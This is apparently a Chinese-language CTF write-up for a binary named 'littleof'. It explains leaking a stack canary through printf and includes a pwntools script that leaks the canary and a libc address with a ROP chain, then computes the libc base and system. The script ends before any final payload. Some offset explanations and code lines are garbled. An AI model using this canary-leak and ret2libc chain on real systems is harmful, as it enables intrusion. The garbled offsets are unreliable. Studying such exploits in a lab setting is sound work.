 很显然栈溢出漏洞位于read函数中，buf大小为0x50，而read函数的第三参数，也就是**输出/写入/输出**的最大的字节长度为0x100，就是2个buf大小的数据。但是本题开启了Canary，因此我们不能直接进行栈溢出以及Ret2Libc攻击。我们可以发现，我们输入的Payload会被第二段的printf打印出来。也就是说可以利用这个printf打印出来Canary，将Canary原封不动的归位，即可跳过检测。

**canary**

Canary是位于EBP之前的一串随机数据，用来防止栈上的内容溢出进行某些危险攻击的。我们都知道Canary 会在栈上添加一个随机值，以保护程序免受缓冲区溢出攻击，但是也会在栈上多占用一些空间。

也就是说：

**假如我的 buf 大小为 0x50**

**如果是 64 位程序，那么 Canary 就会在栈上额外占用 0x08 的空间作为随机值。**

**也就是说 我的可用空间只有 0x42 。**

**开启 Canary ： RBP 位于 0x50 + 0x08，Canary位于0x50 - 0x08，Return Address位于0x50 + 0x16**

**而 0x50 + 0x08 在不开启 Canary 的情况下是 Return Address 的地址**

**关闭 Canary ： RBP 位于 0x50，Return Address位于0x50 + 0x08**

**这时候的 0x50 + 0x08 是 Return Address 的地址。**

具体思路如下：

**因为Canary是栈中的一个随机值，我们通过printf泄露Canary，然后将其填充至它本来应该在的位置，就能通过检查。**

**exp**

```python
from pwn import *
from LibcSearcher import *
 
#io = process("littleof")
io = remote()
elf = ELF("littleof")
context(log_level = 'debug',arch = 'amd64',os = 'linux')
 
rdi = 0x400863
ret = 0x40059E
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main = 0x400789
 
Padding = b'A' * ( 0x50 - 0x08 )
Padding_Ret = b'A' * 0x08
 
io.recvuntil(b'overflow?')
Payload_Canary = Padding
io.sendline(Payload_Canary)
io.recvuntil(b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n')
Canary = u64(io.recv(7).rjust(8, b'\x00'))
log.success("Canary: " + (hex(Canary)))
 发送了0x49个字节，总共0x50个字节，程序会把Canary放在变量起始位置，所以只需要接收7个，然后用一个0填充即可。
 Payload_Leak = Padding + p64(Canary) + Padding_Ret + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
io.sendlineafter(b'Try harder!',Payload_Leak)
addr = u64(io.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
log.success("Real Address: " + (hex(addr)))
 
# Local
#ibc = LibcSearcher('puts',addr)
#base = addr - libc.dump('puts')
#system = base + libc.dump('system')
#binsh = base + libc.dump('str_bin_sh')
 
# Remote
base = addr - 0x080aa0
system = base + 0x04f550
```
